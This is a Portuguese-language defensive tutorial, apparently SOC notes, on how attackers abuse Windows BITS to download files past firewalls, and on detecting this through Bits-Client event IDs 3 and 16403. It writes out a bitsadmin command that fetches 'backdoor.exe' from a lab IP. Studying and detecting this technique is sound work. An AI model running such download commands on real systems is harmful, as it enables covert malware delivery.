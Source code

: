 O Background Intelligent Transfer Service (BITS) foi introduzido pela Microsoft junto com o Windows XP para facilitar e coordenar o download e o upload de arquivos grandes.
Aplicações e componentes do sistema, incluindo o Windows Update, empregam o BITS para distribuir atualizações do sistema operativo e da aplicação de uma forma que minimize a interrupção do user.

As aplicações interagem com o Background Intelligent Transfer Service criando jobs que contém vários arquivos para download ou upload. 

O serviço BITS é executado num processo de host de serviço e pode agendar transferências para qualquer momento. 

Um banco de dados local armazena informações sobre jobs, arquivos e estados.

BITS, como muitas outras tecnologias, pode ser usado por aplicações legítimas, bem como por invasores. 

Quando aplicações maliciosas criam jobs BITS, os arquivos são transferidos ou carregados como parte do processo do host de serviço. 

Isso pode ser usado para contornar firewalls que podem bloquear processos inseguros ou desconhecidos, bem como para disfarçar a aplicação que solicitou a transferência. 

As transferências BITS também podem ser programadas para ocorrer em horários específicos, em vez de depender de processos de longa execução ou do agendador de tarefas.

## Usar o Bitsadmin para transferir arquivos

```txt
bitsadmin /create soc_eventlogs
```


![](../anexos/Pasted%20image%2020241203221023.png)

O primeiro comando usado  é para criar um job de bits chamado “soc_eventlogs”.



bitsadmin /addfile soc_eventlogs http://172.17.79.137/backdoor.exe C:\Users\soc\documents\file.exe

![](../anexos/Pasted%20image%2020241203221254.png)

Em seguida, os parâmetros do job são definidos. Eles incluem a URL/URI remota de onde recuperar um arquivo e o caminho local onde será guardado o arquivo transferido.

![](../anexos/Pasted%20image%2020241203221415.png)

![](../anexos/Pasted%20image%2020241203221441.png)

Isto é seguido por um sinalizador /resume que transfere o arquivo de destino. 
A sessão BITS permanece aberta até que o sinalizador /Complete seja usado para concluir o trabalho BITS.

## Análise

Estamos interessados ​​nos logs operacionais do Bits-Client, que estão localizados em “Logs de aplicações e serviços > Microsoft > Windows > Bits-Client > Operacional”.

![](../anexos/Pasted%20image%2020241203221710.png)

O primeiro ID de evento em que estamos interessados ​​é o ID de evento 3, que é gerado quando um job do Bits é criado.

![](../anexos/Pasted%20image%2020241203221801.png)

Os campos nos quais estamos interessados ​​são o nome do job de transferência, o ID do job que pode ser usado para rastrear outros eventos relacionados a este job específico e o proprietário do job, também conhecido como a conta de user usada para criar o job BITS.

O próximo ID de evento que precisamos procurar é o ID de evento 16403. 

Observamos que esse log é gerado quando atribuímos ao job os seus parâmetros, como URI remoto, caminho local, etc.

![](../anexos/Pasted%20image%2020241203221920.png)

![](../anexos/Pasted%20image%2020241203221955.png)


 Neste evento na aba "Detalhes" em vez da aba "Geral", pois tem títulos mais claros.
 
  Este log dá ótimas informações: cargo, ID do cargo e proprietário do cargo, assim como no evento anterior. 
  
  O foco principal aqui é o 'RemoteName' e o 'LocalName', que registam o URI remoto e o caminho do arquivo local. Podemos obter muito IOC daqui, como o IP/domínio remoto e o nome do arquivo.


